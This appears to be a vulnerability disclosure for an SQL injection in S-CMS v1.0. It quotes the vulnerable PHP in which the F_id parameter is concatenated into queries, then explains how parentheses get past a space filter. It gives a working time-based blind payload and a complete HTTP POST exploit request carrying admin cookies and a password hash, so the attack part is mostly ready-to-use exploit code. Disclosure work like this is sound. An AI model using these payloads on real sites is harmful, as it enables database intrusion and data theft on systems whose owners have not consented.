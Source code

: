 ## Vulnerability summary

​	Vulnerability Name:  S-CMS v1.0 SQLi Vulnerability
​    Vulnerability finder：mntn@knownsec.com
​    Product Home：https://www.s-cms.cn/download.html
​    Software link： https://cdn.shanling.top/file/4.edu.php.zip
​    Version: v 1.0

## Details

Error is in file: 4.edu.php\conn\function.php

Code：

```php
case "form_addmenu":

$sql="select * from ".TABLE."menu where U_sub=0 order by U_order desc limit 1";
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$U_order=$row["U_order"];
}
$sql="select * from ".TABLE."form where F_id=".$_GET["F_id"];
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$F_title=$row["F_title"];
$F_entitle=$row["F_entitle"];
}
mysqli_query($conn,"insert into ".TABLE."menu(U_title,U_entitle,U_order,U_sub,U_ico,U_type,U_typeid) values('".$F_title."','".$F_entitle."',".($U_order+1).",0,'bars','form',".$_REQUEST["F_id"].")");
echo "success|æ·»å æå!";
lg("æ°å¢è¡¨åå°ä¸»èåï¼IDï¼".$_GET["F_id"]."ï¼");
die();
break;
```

`case: "form_addmenu"`is composed of `action` and `type`, and is executed by switch...case. Because of the protection, `spaces, -, *` are replaced with `_`, so use parentheses to bypass the space filter.

Insert injection in 16 lines, the accepted parameters are passed in through REQUEST, and the select statement in line 9 is passed in by GET, so first use the Post method to pass the parameters, not to control the select statement, the resulting payload is As mentioned above.

Query data by time blind：

```sql
(select(if(length(database())=8,sleep(5),1))))#
```
payload：

```
POST /4.edu.php/admin/ajax.php?action=addmenu&type=form HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Referer: http://localhost/4.edu.php/admin/ajax.php?action=addmenu&type=form
Cookie: authx=; count_all=0; userx=; passx=; add=%E4%B8%AD%E5%9B%BD; user=admin; pass=7b19569b9317927e14152e312767a351; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; lang=1ccd6812fc6526259c27c108a3a932225069539c%7Een; PHPSESSID=va94ir8ganf5t19mccv8oqqmu1; Hm_lvt_b60316de6009d5654de7312f772162be=1570675175; Hm_lpvt_b60316de6009d5654de7312f772162be=1570675490
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.2

F_id=(select(version())))#
```


The last closed SQL statement is as follows：

![](https://s2.ax1x.com/2019/10/10/uTrYTg.png)

Of course, because it is REQUEST, there is no problem with GET (remember code#)：

![](https://s2.ax1x.com/2019/10/10/uTrNkQ.png)

![](https://s2.ax1x.com/2019/10/10/uTrUYj.png)
